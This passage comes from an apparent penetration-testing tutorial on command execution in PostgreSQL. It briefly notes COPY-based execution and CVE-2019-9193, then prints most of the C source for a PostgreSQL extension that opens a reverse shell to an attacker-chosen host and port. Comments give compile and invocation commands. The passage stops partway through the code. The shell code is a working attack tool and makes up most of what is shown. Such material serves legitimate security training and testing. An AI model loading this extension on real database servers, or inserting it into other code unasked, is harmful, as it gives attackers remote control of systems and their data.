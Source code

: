Interestingly enough, this functionality is assigned a CVE ( [CVE-2019-9193](https://nvd.nist.gov/vuln/detail/CVE-2019-9193)), however the PostgreSQL team issued a [statement](https://www.postgresql.org/about/news/cve-2019-9193-not-a-security-vulnerability-1935/) that this is intended functionality and therefore not a security issue.

#### Permissions

In order to use `COPY` for remote code execution, the user must have the [pg\_execute\_server\_program](https://www.postgresql.org/docs/11/default-roles.html) role, or be a superuser.

## Method 2: PostgreSQL Extensions

A second, slightly more complicated way of running commands in `PostgreSQL` is by creating a `PostgreSQL extension`. [Extensions](https://www.postgresql.org/docs/current/external-extensions.html) are libraries that can be loaded into `PostgreSQL` to add custom functionalities.

As an example, we will walk through compiling and using the following custom `C` extension for `PostgreSQL` that returns a `reverse shell` as the `postgres` user:

```c
// Reverse Shell as a Postgres Extension
// William Moody (@bmdyy)
// 08.02.2023

// CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '.../pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;
// SELECT rev_shell('127.0.0.1', 443);
// DROP FUNCTION rev_shell;

// sudo apt install postgresql-server-dev-<version>
// gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_rev_shell.so pg_rev_shell.c

#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <stdio.h>

#include "postgres.h"
#include "fmgr.h"
#include "utils/builtins.h"

PG_MODULE_MAGIC;

PG_FUNCTION_INFO_V1(rev_shell);

Datum
rev_shell(PG_FUNCTION_ARGS)
{
    // Get arguments
    char *LHOST = text_to_cstring(PG_GETARG_TEXT_PP(0));
    int32 LPORT = PG_GETARG_INT32(1);

    // Define necessary struct
    struct sockaddr_in serv_addr;
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(LPORT); // LPORT
    inet_pton(AF_INET, LHOST, &serv_addr.sin_addr); // LHOST

    // Connect to target
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    int client_fd = connect(sock, (struct sockaddr*)&serv_addr, sizeof(serv_addr));

    // Redirect STDOUT/IN/ERR to connection
    dup2(sock, 0);
    dup2(sock, 1);
```